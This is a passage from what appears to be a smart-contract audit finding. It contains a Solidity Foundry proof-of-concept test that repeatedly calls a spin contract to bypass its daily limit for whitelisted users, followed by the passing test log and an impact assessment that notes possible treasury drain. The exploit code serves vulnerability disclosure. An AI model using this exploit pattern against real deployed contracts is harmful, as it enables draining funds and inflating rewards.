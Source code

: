 ```solidity
    for (uint256 i; i < spinsToExecute; ++i) {
        // Unique nonce for each spin
        vm.mockCall(
            attacker,
            abi.encodeWithSignature("generateRequest(string,uint8,uint256,uint256,address)"),
            abi.encode(1000 + i)
        );
        
        spin.startSpin{value: price}(); // ❌ No daily limit check for whitelisted
        
        uint256[] memory rng = new uint256[](1);
        rng[0] = 800_000; // Results in PP reward (100 PP per spin)
        spin.handleRandomness(1000 + i, rng);
    }
    
    // 5. Verify unlimited exploitation
    uint256 postBalance = address(spin).balance;
    (, , , , , uint256 postPP, ) = spin.getUserData(attacker);
    
    // Assertions proving the bypass
    assertEq(postPP - prePP, spinsToExecute * 100, "PP reward per spin");
    assertEq(postBalance - preBalance, price * spinsToExecute, "All fees collected");
    assertTrue(spinsToExecute > 1, "Multiple spins same day executed");
    
    vm.stopPrank();
}
```

### PoC Results
```
[PASS] testPoCCriticalSpinWhitelistBypass() (gas: 1,587,098)
Logs:
  Initial contract balance (ETH): 100000
  Spin price (ETH): 2
  Planned spins in same day: 20
  
  Post-exploit PP: 2000 (20 × 100 PP per spin)
  Post-exploit balance (ETH): 100040 (+40 ETH fees)
  Daily limit bypassed: YES
  
=== VULNERABILITY CONFIRMED: UNLIMITED DAILY SPINS ===
```

## Impact Assessment

### Financial Impact
- **Unlimited Fee Collection**: 2 ETH per spin × unlimited spins per day
- **PP Reward Inflation**: 100 PP per spin × unlimited spins
- **Treasury Drain Potential**: Combined with jackpot wins (rng=0), can drain entire treasury
- **Economic Model Breakdown**: Daily limits are core to tokenomics
